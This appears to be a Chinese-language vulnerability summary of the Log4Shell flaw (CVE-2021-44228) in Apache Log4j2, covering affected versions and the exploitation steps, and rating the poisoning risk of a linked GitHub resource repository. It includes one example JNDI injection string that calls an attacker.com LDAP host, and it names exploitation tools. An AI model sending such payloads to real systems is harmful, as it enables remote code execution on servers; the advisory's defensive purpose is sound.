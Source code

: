 ## CVE-2021-44228-Apache Log4j2-远程代码执行

**漏洞编号:** CVE-2021-44228

**漏洞类型:** 远程代码执行

**影响应用:** Apache Log4j2

**危害等级:** 高危，可能导致远程代码执行

**影响版本:** 2.0-beta9 <= version < 2.15.0 (excluding security releases 2.12.2, 2.12.3, and 2.3.1)

**利用条件:** 应用程序使用受影响的Log4j2版本，且允许攻击者控制日志消息或日志消息参数。需要目标服务器开启JNDI功能。

**POC 可用性:** 是

**投毒风险:** 10%

## 详情

CVE-2021-44228（Log4Shell）是Apache Log4j2中的一个严重漏洞，允许未经身份验证的远程代码执行。攻击者可以通过发送特制的日志请求，利用Log4j2的JNDI功能来执行任意代码。\n\n**漏洞利用方式：**\n\n1.  攻击者向使用存在漏洞的Log4j2组件的应用程序发送包含恶意JNDI查找字符串的请求。例如： `${jndi:ldap://attacker.com/evil}`\n2.  Log4j2在记录日志时，会解析该JNDI字符串，并尝试通过LDAP协议连接到攻击者控制的服务器（attacker.com）。\n3.  攻击者的LDAP服务器返回一个包含Java对象的引用。\n4.  Log4j2尝试加载并实例化该Java对象，从而导致攻击者控制的代码在服务器上执行。\n\n**有效性：** 根据漏洞库信息和搜索结果，该漏洞的POC代码是有效的。该漏洞已被广泛利用，并且互联网上存在大量的POC和利用工具。\n\n**投毒风险：**\n查看了提供的“漏洞利用代码”仓库的内容列表，主要包含以下信息:\n*   Advisory.md：提供漏洞相关的建议和缓解措施的链接。\n*   Exploitation.md：提供漏洞利用相关的链接，例如渗透测试指南和JNDI注入工具。\n*   Honeypots.md：提供蜜罐相关的链接。\n*   IOCs-Callback-Domains-IP-Addresses.md：提供IOC（Indicator of Compromise）和回调URL/IP地址的链接。\n*   Malware-Reports.md：提供恶意软件报告的链接。\n*   Mitigations-Fixes.md：提供缓解和修复措施的链接。\n*   Payloads-Obfuscation-WAF-Bypass.md：提供payload、混淆和WAF绕过相关的链接。\n\n总体而言，这个仓库主要是一个资源链接的集合，提供了关于CVE-2021-44228（Log4Shell）的各种信息，包括漏洞建议、利用方法、IOC、缓解措施和payload。\n\n其中`Exploitation.md`文件中链接的`JNDI-Injection-Exploit`、`JNDI-Exploit-Kit`和`marshalsec`等工具本身就是漏洞利用工具，如果用户下载并使用这些工具，可能会面临安全风险，例如被植入后门或恶意代码，或者被用于非法用途。但是这些工具本身是为了复现和验证漏洞使用的，并非作者投毒。\n仓库本身提供的信息比较杂乱，需要使用者具备一定的安全知识才能正确评估和使用。存在一定的误导性，有可能被不具备安全知识的人误用，或者被用于恶意目的，因此评估投毒风险为10%。

**项目地址:** [0xsyr0/Log4Shell](https://github.com/0xsyr0/Log4Shell)

**漏洞详情:** [CVE-2021-44228](https://nvd.nist.gov/vuln/detail/CVE-2021-44228)